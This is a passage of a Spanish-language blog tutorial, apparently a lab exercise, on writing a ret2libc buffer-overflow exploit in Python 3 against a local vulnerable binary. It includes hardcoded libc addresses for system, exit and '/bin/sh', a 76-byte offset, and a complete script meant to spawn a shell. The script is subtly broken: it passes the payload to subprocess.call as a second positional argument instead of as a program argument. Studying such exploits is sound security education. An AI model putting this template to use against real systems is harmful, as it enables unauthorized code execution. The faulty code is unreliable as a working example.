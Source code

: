![](http://127.0.0.1:4000/assets/img/favicons/Ret2Libc/data.png)

### Desarrollo del exploit

Esta vez el exploit sera en Python3, en el post anterior lo hicimos en python2.

El funcionamiento a tener en mente para nuestro exploit sera el siguiente.

```python
EIP = system_addr + exit_addr + bin_sh_addr
```

Por lo tanto con las direcciones de obtuvimos anteriormente y con el tipo de ataque en mente lo único que queda es programar el exploit.

```python
#!/usr/bin/python3

from struct import pack
from subprocess import call

#gdb-peda$ p system
#$1 = {<text variable, no debug info>} 0xb7e42db0 <__libc_system>
#gdb-peda$ p exit
#$2 = {<text variable, no debug info>} 0xb7e369e0 <__GI_exit>
#gdb-peda$ find "/bin/sh" all
#Searching for '/bin/sh' in: all ranges
#Found 1 results, display max 1 items:
#libc : 0xb7f63b2b ("/bin/sh")

	

if __name__ == '__main__':

	# EIP -> system + exit + bin_sh

	system_addr = pack("<I", 0xb7e42db0)
	exit_addr = pack("<I", 0xb7e369e0)
	bin_sh_addr = pack("<I", 0xb7f63b2b)

	offset = 76
	junk = b"A"*offset
	EIP = system_addr + exit_addr + bin_sh_addr

	payload = junk + EIP

	call(["/home/test/ret2libc/fileVuln"], payload)

```

Este sería el exploit el cual con la libreria subprocess con la funcion call podemos ejecutar desde el mismo exploit el binario en cuestión junto con el payload como argumento para poder realizar el ataque y el resultado sería el siguiente.
